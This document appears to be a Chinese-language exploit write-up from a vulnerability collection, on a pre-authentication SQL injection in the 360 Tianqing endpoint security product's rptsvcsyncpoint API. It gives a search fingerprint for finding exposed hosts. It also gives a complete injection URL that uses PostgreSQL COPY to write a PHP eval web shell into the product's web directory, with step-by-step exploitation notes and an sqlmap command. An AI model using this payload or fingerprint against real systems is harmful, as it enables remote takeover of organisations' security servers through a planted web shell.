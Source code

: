 # 360天擎 rptsvcsyncpoint 前台SQL注入

# 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```



使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```



![image-20220209200650958](/images/202202092006296.png)


